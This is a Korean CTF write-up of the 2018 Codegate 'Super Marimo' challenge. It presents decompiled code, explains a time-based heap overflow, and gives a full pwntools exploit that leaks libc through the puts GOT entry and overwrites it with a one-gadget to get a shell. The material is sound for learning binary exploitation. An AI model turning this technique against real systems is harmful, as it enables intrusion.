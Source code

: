 ```yaml
---
title: "2018 Codegate Super Marimo"
date: 2019-12-23
ctf: Codegate CTF
layout: post
published : false
---
```


64bit heap overflow 문제다. 변수랑 함수 이름은 내가 수정해놨다.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

이 프로그램에서 hidden function이 존재했다. 

```c
signed __int64 __fastcall vuln(const char *a1)
{
  void *v1; // ST18_8

  if ( strcmp(a1, "show me the marimo") )
    return 0LL;
  v1 = malloc(24uLL);
  sub_400EED(v1, 1u, 5u);
  Marimo[Marimo_cnt++] = v1;
  return 1LL;
}
```

여기서 보면 show me the marimo라는 글자랑 같으면 Marimo를 생성해줄 수 있다.

또 다른 곳에서 만들 수 있긴한데 돈이 필요하다고 떠서 그냥 호출하는 함수는 똑같다.

```c
_BYTE *__fastcall sub_400EED(struct marimo *a1, unsigned int a2, unsigned int a3)
{
  unsigned __int64 v3; // ST00_8
  int v4; // ST04_4

  v3 = __PAIR__(a2, a3);
  *&a1->birth = time(0LL);
  *&a1[1].name = a2;
  *&a1[2].profile = malloc(16uLL);
  puts("What's your new marimo's name? (0x10)");
  printf(">> ", v3);
  fflush(stdout);
  __isoc99_scanf("%16s", *&a1[2].profile);
  *&a1[5].name = malloc(32 * v4);
  printf("write %s's profile. (0x%X)\n", *&a1[2].profile, (32 * v4));
  fflush(stdout);
  printf(">> ");
  fflush(stdout);
  return sub_400FF9(*&a1[5].name, 32 * v4);
}
```

이런식으로 구조체 변수에 넣어서 Marimo를 만들어준다.

보기 쉽게 구조체는 이런식으로 만들어줬다. 

![](https://user-images.githubusercontent.com/32904385/71411403-7fd27f80-268c-11ea-9293-9caee4bc6f31.png)

취약점은 여기서 터진다.

```c
unsigned __int64 __fastcall Modify(struct marimo *a1)
{
  unsigned int v1; // ST18_4
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  char v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts(&byte_4014F4);
  printf("birth : %d\n", *&a1->birth);
  v1 = time(0LL);
  printf("current time : %d\n", v1);
  v3 = v1 + *&a1[1].name - *&a1->birth;
  printf("size : %d\n", v3);
  printf("price : %d\n", 5 * v3);
  printf("name : %s\n", *&a1[2].profile);
  printf("profile : %s\n", *&a1[5].name);
  puts(&byte_4014F4);
  puts("[M]odify / [B]ack ?");
  printf(">> ");
  fflush(stdout);
  __isoc99_scanf("%19s", &v4);
  if ( v4 == 'M' )
  {
    puts("Give me new profile");

    printf(">> ", &v4);
    fflush(stdout);
    sub_400FF9(*&a1[5].name, 32 * v3);          // vuln
    Modify(a1);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

32 * 흐른 시간만큼의 크기로 수정해줄 수 있다. 그래서 여기서 흐른시간을 늘려서 Overflow 일으켜서 함수 포인터를 바꿀 수 있다. 

```
payload : buf[56] + puts_got(profile) + puts_got(name)
```

Marimo를 두개 만들어서 첫 번째 Marimo를 오버플로우나게 해서 puts_got를 Marimo의 name값을 가르키는 포인터에 넣고 view해주면 leak해줄 수 있어서 립씨 베이스를 구할 수 있다.

libc leak해줬으면 oneshot을 이용해서 modify해서 Marimo의 profile을 가르키는 포인터에 oneshot 주소를 구해서 got overwrite 해주면 된다.  `sub_400FF9` 함수에 의해서 개행전까지 입력받을 수 있다.

![](https://user-images.githubusercontent.com/32904385/71410643-6da31200-2689-11ea-856d-14e8dbacef8e.png)

'A'를 40개 입력했을 때 이런식으로 되는데 `0x15e015000` 을 덮지 않고 `0xc5c4c0` 을 바꿔줘야한다. 덮으면 나중에 수정부분에서 입력을 안 받고 프로그램이 꺼진다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./marimo')
e = ELF('./marimo')
libc = e.libc

def vuln(name,profile):
	p.sendlineafter('>> ','show me the marimo')
	p.sendlineafter('>> ',name)
	p.sendlineafter('>> ',profile)

def view(index):
	p.sendlineafter('>> ','V')
	p.sendlineafter('>> ',str(index))

def modify(profile):
	p.sendlineafter('>> ','M')
	p.sendlineafter('>> ',profile)
	p.sendlineafter('>> ','B')

vuln('AAAA','BBBB')
vuln('CCCC','DDDD')

sleep(3)
payload = 'A'*48
payload += p64(0x15e015000)
payload += p64(e.got['puts']) # name
payload += p64(e.got['puts']) # profile

view(0)
modify(payload)
#raw_input()
view(1)
p.recvuntil('name : ')
libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('>> ','M')
p.sendlineafter('>> ',p64(libc_base + 0x45216)) # puts overwrite
p.interactive()
```

